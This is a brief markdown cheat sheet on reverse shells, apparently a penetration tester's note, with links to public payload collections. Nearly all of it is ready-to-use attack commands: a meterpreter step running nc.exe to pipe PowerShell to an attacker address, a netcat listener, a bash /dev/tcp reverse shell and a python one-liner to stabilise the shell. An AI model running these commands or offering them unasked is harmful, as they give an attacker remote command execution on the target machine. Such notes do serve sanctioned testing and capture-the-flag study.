 # Reverse shell

## Links

- [revshells.com](https://www.revshells.com/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Windows reverse shell with nc using meterpreter

```sh
execute -f nc.exe -a "-e powershell.exe $IP 1234"
```

## Listener

```sh
rlwrap nc -lnvp 1234
```

## Bash reverse shell

```sh
bash -c 'bash -i >& /dev/tcp/$IP/1234 0>&1'
```

## Stabilize shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
